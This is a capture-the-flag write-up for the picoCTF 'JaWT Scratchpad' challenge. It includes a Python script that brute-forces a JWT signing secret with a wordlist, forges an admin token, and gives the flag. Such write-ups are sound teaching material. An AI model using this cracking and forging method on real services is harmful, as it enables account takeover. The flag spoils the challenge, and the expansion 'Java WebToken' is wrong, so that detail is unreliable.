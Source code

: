 ## JaWT Scratchpad (400)

#### Description
> Check the admin scratchpad! https://2019shell1.picoctf.com/problem/47301/ or http://2019shell1.picoctf.com:47301

#### Hint
> What is that cookie?
> Have you heard of JWT?

#### Solution
Submit form with the name "RootHunter". We got a cookie `jwt` with the value:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiUm9vdEh1bnRlciJ9.Wg_9qTDnZEVVLzq3anzAD2SXWI_nBYu_RO9L2QVEW3s
```
JWT means [Java WebToken](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6). 
Look into the index page, we will see a link to **John the Ripper**. That means we have to break the key. I choose to use this library [PyJWT](https://github.com/jpadilla/pyjwt) to implement the JWT and crack it with `rockyou.txt`.

```python
#!/usr/bin/python3
import jwt

rockyou = open("/usr/share/wordlists/rockyou.txt","r",encoding = "ISO-8859-1").read().split("\n")
jwtTrue = b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiUm9vdEh1bnRlciJ9.Wg_9qTDnZEVVLzq3anzAD2SXWI_nBYu_RO9L2QVEW3s'
for secret in rockyou:
    # secret = b"ilovepico"
    encoded = jwt.encode({"user": "RootHunter"}, secret, algorithm='HS256')
    if (encoded == jwtTrue):
        print("The secret is: ",secret.decode("utf-8"))
        encoded = jwt.encode({"user": "admin"}, secret, algorithm='HS256')
        print("The payload to admin: ",encoded.decode("utf-8"))
        break
```

After a few minutes, we got the key and the payload to get flag:
```
The secret is:  b'ilovepico'
The payload to admin:  eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```


#### Flag
`picoCTF{jawt_was_just_what_you_thought_be9ef99e529597da0f3543893357908b}`